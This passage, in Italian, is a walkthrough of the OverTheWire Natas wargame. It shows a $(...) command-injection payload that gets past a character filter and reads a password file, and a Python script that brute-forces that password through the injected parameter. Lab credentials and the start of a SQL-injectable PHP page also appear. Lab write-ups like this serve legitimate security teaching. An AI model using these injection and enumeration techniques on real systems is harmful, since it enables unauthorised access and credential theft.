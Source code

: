 Il codice è stato implementato con un filtro: ```preg_match('/[;|&`\'"]/',$key)```. Questo ci costringerà ad elaborare una nuova tecnica. Come: `$(comando)`:

```sh
grep -i $(grep ^a /etc/natas_webpass/natas17)loll dictionary.txt
```

Bash eseguirà prima il comando all'interno delle parentesi; questo ritornerà 'a' se il file `natas17` contiene la letterà 'a'. Successivamente verrà eseguito il comando 'contenitore' che sarà diventato: `grep -i aloll dictionary.txt`, sempre se la password contiene la letterà 'a', altrimenti il comando resterà: `grep -i loll dictionary.txt`.
Possiamo quindi creare un script `enumerator.py` che enumeri la password:

```py
import urllib.request as ulib

# base64 natas16:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
headers={"Authorization" : "Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=="}
url = "http://natas16.natas.labs.overthewire.org/index.php"
alfanum = "qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM1234567890"
password = ""

for k in range(32): # Lunghezza della password
    for i in alfanum:
        print(f"Password: {password}; Try with: {i}", end="\r")
        request = url+'?needle=$(grep+^'+password+i+'+/etc/natas_webpass/natas17)loll'
        payUrl = ulib.Request(url=request, headers=headers)
        if b'lolling' not in ulib.urlopen(payUrl).read():
            password += i
print("\n"+password)
```

Si, è molto simile al precedente, cambia sostanzialmente solo la richiesta. 
Eseguendolo e attendendo pochi attimi:

```
pietro@no-hostname:~$ /usr/bin/python enumerator.py
Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw; Try with: 0
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
Finito.

## Natas 17 :: 18
> _User:_ natas17

> _Pass:_ 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

> _URL:_ http://natas17.natas.labs.overthewire.org

![](https://i.postimg.cc/QdL5dLH3/natas18-1.png)

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }
    $res = mysql_query($query, $link);
    if($res) {
        if(mysql_num_rows($res) > 0) {
            //echo "This user exists.<br>";
        } else {
            //echo "This user doesn't exist.<br>";
        }
```